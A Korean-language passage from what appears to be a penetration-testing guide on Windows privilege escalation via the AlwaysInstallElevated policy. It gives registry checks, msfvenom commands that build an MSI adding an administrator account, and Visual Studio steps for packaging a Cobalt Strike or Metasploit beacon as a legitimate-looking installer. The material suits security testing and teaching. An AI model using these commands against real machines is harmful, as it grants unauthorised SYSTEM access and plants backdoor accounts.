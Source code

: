## AlwaysInstallElevated

**이** 2개의 레지스터가 **활성화되어 있으면** (값이 **0x1**), 그러면 모든 권한의 사용자가 **설치** (실행) `*.msi` 파일을 NT AUTHORITY\\**SYSTEM**으로 할 수 있습니다.
```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
### 메타스플로잇 페이로드
```bash
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted
```
If you have a meterpreter session you can automate this technique using the module **`exploit/windows/local/always_install_elevated`**

### PowerUP

`Write-UserAddMSI` 명령어를 사용하여 현재 디렉토리 내에 권한 상승을 위한 Windows MSI 바이너리를 생성합니다. 이 스크립트는 사용자/그룹 추가를 요청하는 미리 컴파일된 MSI 설치 프로그램을 작성합니다(따라서 GIU 접근이 필요합니다):
```
Write-UserAddMSI
```
Just execute the created binary to escalate privileges.

### MSI Wrapper

이 튜토리얼을 읽고 이 도구를 사용하여 MSI 래퍼를 만드는 방법을 배우세요. **명령줄**을 **실행**하려는 경우 "**.bat**" 파일을 래핑할 수 있습니다.

{% content-ref url="msi-wrapper.md" %}
[msi-wrapper.md](msi-wrapper.md)
{% endcontent-ref %}

### Create MSI with WIX

{% content-ref url="create-msi-with-wix.md" %}
[create-msi-with-wix.md](create-msi-with-wix.md)
{% endcontent-ref %}

### Create MSI with Visual Studio

* **Cobalt Strike** 또는 **Metasploit**를 사용하여 `C:\privesc\beacon.exe`에 **새 Windows EXE TCP 페이로드**를 **생성**합니다.
* **Visual Studio**를 열고 **새 프로젝트 만들기**를 선택한 후 검색 상자에 "installer"를 입력합니다. **Setup Wizard** 프로젝트를 선택하고 **Next**를 클릭합니다.
* 프로젝트 이름을 **AlwaysPrivesc**로 지정하고, 위치에 **`C:\privesc`**를 사용하며, **해결책과 프로젝트를 동일한 디렉토리에 배치**를 선택하고 **Create**를 클릭합니다.
* **Next**를 계속 클릭하여 4단계 중 3단계(포함할 파일 선택)에 도달합니다. **Add**를 클릭하고 방금 생성한 Beacon 페이로드를 선택합니다. 그런 다음 **Finish**를 클릭합니다.
* **Solution Explorer**에서 **AlwaysPrivesc** 프로젝트를 강조 표시하고 **Properties**에서 **TargetPlatform**을 **x86**에서 **x64**로 변경합니다.
* 설치된 앱이 더 합법적으로 보이도록 **Author** 및 **Manufacturer**와 같은 다른 속성을 변경할 수 있습니다.
* 프로젝트를 마우스 오른쪽 버튼으로 클릭하고 **View > Custom Actions**를 선택합니다.
* **Install**을 마우스 오른쪽 버튼으로 클릭하고 **Add Custom Action**을 선택합니다.
* **Application Folder**를 두 번 클릭하고 **beacon.exe** 파일을 선택한 후 **OK**를 클릭합니다. 이렇게 하면 설치 프로그램이 실행되면 페이로드가 즉시 실행됩니다.
* **Custom Action Properties**에서 **Run64Bit**를 **True**로 변경합니다.
* 마지막으로 **빌드**합니다.
* `File 'beacon-tcp.exe' targeting 'x64' is not compatible with the project's target platform 'x86'` 경고가 표시되면 플랫폼을 x64로 설정했는지 확인합니다.
